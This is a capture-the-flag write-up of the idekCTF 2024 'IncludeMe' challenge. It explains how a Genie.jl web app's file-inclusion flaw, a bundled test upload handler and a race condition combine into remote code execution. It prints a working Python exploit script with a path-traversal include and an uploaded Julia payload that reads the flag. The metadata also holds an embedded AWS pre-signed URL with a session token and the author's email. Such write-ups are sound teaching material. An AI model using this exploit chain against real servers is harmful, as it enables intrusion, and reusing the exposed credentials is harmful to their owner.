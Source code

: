 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4664ZAHQBOF%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T130134Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDUaCXVzLXdlc3QtMiJHMEUCIQDMs7gTKgMpr1LRiUhXjIDNdqhvtuzIXHJq07f0Jm7DZwIgLJR0XdjDwIoPJOOmGL2vYuo0J59jhXbgGO%2FdQ9vArn8qiAQI7v%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDMvMazqqhZak12250yrcA%2BHzju5ySt%2F9LSPM0AuwE8fOFm3QpL0s9n4uEhZi4jm6v33q2VSSapucd2Qj%2B5PGQq%2BiCz6Yj7P5pFvz%2F7Jre2l3qE8edmSH7DaHZpEbhNbnqLAeyc1qdKDNa2gRW97%2FMmPXtCAlXqgDHwANdLCzHFB4UguC7BmQ22bZqhg61lUqU1%2BIZet%2FOL5HWlYTRp7NU%2Bf5UzzDpckcCuwvsp0KBY5xzgaA99V62lzdTwkkInSrGQ%2BICIufMTkcYLZZzsGaSRu30i323EVN3ECeEodX5GAVygleAxtkN78KpIrQQCQ2ELfu%2BrSekDLJiOMv9%2F9PPhz%2Ff713WNLygvShyZZTnEHmAczL3ky1InlMw%2F%2B8gDBqSJXEtXyLR%2BCo0j6BeyqDQT%2FVhtw2fYboJg5PlBcmWNe3kRE8dtnKBs44%2BdunVgaGQzBri%2BOhq0kz8d2Tu2CAjBFZ7J8JWhG50dgzE8iyA99F7BJamzu2yyMtBKu4JfL8Dj9I4gh3792wNGu7ElgKuyInHHIYFt4wRC6K%2Bdx%2FclX%2Bk8zdJrd2%2B018CTXjHwHyEsA4IL5w2FGtnZ9oYRgMQsWp7ST4MfMrXZxvPQLVbq915uBdwvjQfmtMHEa9EePbzeQQ%2Bn3%2Biis4maOyMI%2FYwcEGOqUBfQtJO8b7D2LJujAOZ2JIuN2pb8pAyohjZvN%2Fx%2BVUz7TBE0l6jzDnZVnuQnFOqUF8gGudIzifKJISeJ0H6dRKw%2BLPpc%2FgQsDgIqfRxJcj0JgZMtXG9vQPkQCSBpUfk7J2v1fV%2B%2FsovTYwPsUxx9L1RBsWbss2vU%2BsSnyg7KouMpqL2xqqDkrdXohHuqHq%2BPJr%2BKPoYhYtnw%2FQCnC%2F8F3CJW492iSi\&X-Amz-Signature=b750e14abfbb22cb3912b2b8311e4ece03a319b530c22e3813b7e4d40fa0de17\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
